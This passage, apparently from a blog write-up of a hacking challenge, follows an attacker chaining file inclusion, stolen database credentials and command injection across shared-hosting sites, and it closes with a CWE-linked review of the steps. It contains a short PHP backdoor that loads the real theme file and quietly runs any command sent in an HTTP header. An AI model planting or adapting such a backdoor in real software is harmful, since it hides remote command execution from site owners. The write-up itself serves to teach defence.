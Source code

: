 Look familiar? It&#8217;s the same code as the local file inclusion exploit we found earlier, except the file name comes from the database instead of the HTTP request.

In a typical web application, the database is the most likely thing for a successful attacker to get access to. You should **always treat the database as user input**, no matter how sure you are that only trusted people are able to access it. This code trusts the database to point it to one of the files the author created, but if we can control the value in the database, we can use &#8220;../&#8221; to walk up the directory tree and include any PHP file &#8211; owned by any user.

In MySQL, permissions are based on a user name, host name, and password. If we have the user name and password for a database, then any account on the server is as good as the next, because only the host name matters to MySQL. We probably won&#8217;t be able to use the database credentials we found to connect from our own computers, but by using the MySQL command-line client through our command injection hole, or by uploading some more PHP code if we have to, we can modify the target&#8217;s database.

Since the scripts on the website need access to the database, the user name and password must be in a script file somewhere, and it must be included by the scripts we&#8217;re looking at. It doesn&#8217;t take long for me to find them, and the next step is just to create a file under our currently compromised user that our target user can read:

<pre class="brush: php; title: ; notranslate" title="">&lt;?php
include( THEME_DIR . ($theme='default') . '.php' );
if(isset($_SERVER['HTTP_X_FORWARD_FOR']))
    system($_SERVER['HTTP_X_FORWARD_FOR'].' 2&gt;&1');
?&gt;
</pre>

This is just our same old command injection code, with a little addition to help keep us under the radar: we include the real theme file, and even set the variable back just in case it is used anywhere else. The target&#8217;s site will look and function exactly the same as before, except we can secretly execute a command along with any request. Nice.

## Game Over

Since we now have full access to our target user, it&#8217;s just a trivial matter of finding the files we want. All I knew about the file I was after was that I&#8217;d &#8220;know it when [I] saw it.&#8221; It ended up being a file called <tt>topsecret.txt</tt>, and my &#8220;victim&#8221; had one last trick up his sleeve. Unfortunately for him, I wasn&#8217;t dumping the file the way he expected:

<pre class="brush: plain; light: true; title: ; notranslate" title="">victim@target:/home/victim/target.example.com% grep ^ * .*
topsecret.txt:cat: /home/victim/target.example.com/topsecret.txt: Permission denied
</pre>

Nice try, though.

## Review

Here&#8217;s a review of the steps we took:

  * used a [path traversal vulnerability](http://cwe.mitre.org/data/definitions/22.html) on site A to discover otherwise inaccessible site B
  * used a [SQL injection vulnerability](http://cwe.mitre.org/data/definitions/89.html) and weak password hashing on site B to discover admin login to site C
  * used admin privileges to [execute arbitrary code](http://cwe.mitre.org/data/definitions/94.html) on site C
  * used [information exposed by error messages](http://cwe.mitre.org/data/definitions/209.html) to find internal paths to target site
  * used [server misconfiguration](http://cwe.mitre.org/data/definitions/61.html) to read source code and database credentials for site D
  * used [local file inclusion vulnerability](http://cwe.mitre.org/data/definitions/98.html) through database on site D to execute arbitrary code as that user
  * used injected code on side D to steal everything on site E
